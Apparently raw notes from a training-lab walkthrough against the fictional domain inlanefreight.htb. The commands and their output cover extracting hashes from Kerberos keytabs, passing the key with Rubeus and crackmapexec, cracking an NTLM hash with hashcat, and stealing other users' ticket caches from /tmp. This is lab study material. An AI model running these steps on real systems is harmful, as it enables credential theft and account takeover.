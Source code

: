 python3 /opt/keytabextract.py /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt

[!] No RC4-HMAC located. Unable to extract NTLM hashes.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[!] Unable to identify any AES128-CTS-HMAC-SHA1 hashes.
[+] Keytab File successfully imported.
	REALM : INLANEFREIGHT.HTB
	SERVICE PRINCIPAL : svc_workstations/
	AES-256 HASH : 0c91040d4d05092a3d545bbf76237b3794c456ac42c8d577753d64283889da6d

Rubeus.exe  asktgt /domain:inlanefreight.htb /user:svc_workstations /aes256:0c91040d4d05092a3d545bbf76237b3794c456ac42c8d577753d64283889da6d /nowrap


crackmapexec ssh $TARGET -u svc_workstations -d . -H 0c91040d4d05092a3d545bbf76237b3794c456ac42c8d577753d64283889da6d

python3 /opt/keytabextract.py /home/carlos@inlanefreight.htb/.scripts/svc_workstations._all.kt
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
	REALM : INLANEFREIGHT.HTB
	SERVICE PRINCIPAL : svc_workstations/
	NTLM HASH : 7247e8d4387e76996ff3f18a34316fdd
	AES-256 HASH : 0c91040d4d05092a3d545bbf76237b3794c456ac42c8d577753d64283889da6d
	AES-128 HASH : 3a7e52143531408f39101187acc80677

sudo hashcat -m 1000 7247e8d4387e76996ff3f18a34316fdd /usr/share/wordlists/rockyou.txt
7247e8d4387e76996ff3f18a34316fdd:Password4

ssh svc_workstations@inlanefreight.htb@$TARGET -p 2222
Password4

Mor3_4cce$$_m0r3_Pr1v$

cat /root/flag.txt
Ro0t_Pwn_K3yT4b

ls -la /tmp

-rw-------  1 julio@inlanefreight.htb            domain users@inlanefreight.htb 1414 Nov  6 12:45 krb5cc_647401106_bm0Tl7
-rw-------  1 julio@inlanefreight.htb            domain users@inlanefreight.htb 1406 Nov  6 12:45 krb5cc_647401106_HRJDux
-rw-------  1 svc_workstations@inlanefreight.htb domain users@inlanefreight.htb 1535 Nov  6 12:45 krb5cc_647401109_MCP4yh
-rw-------  1 carlos@inlanefreight.htb           domain users@inlanefreight.htb 1746 Nov  6 12:45 krb5cc_647402606
-rw-------  1 carlos@inlanefreight.htb           domain users@inlanefreight.htb 1433 Nov  6 12:40 krb5cc_647402606_91JyEJ

klist

cd /root/
cp /tmp/krb5cc_647401106_HRJDux .
export KRB5CCNAME=/root/krb5cc_647401106_HRJDux
klist
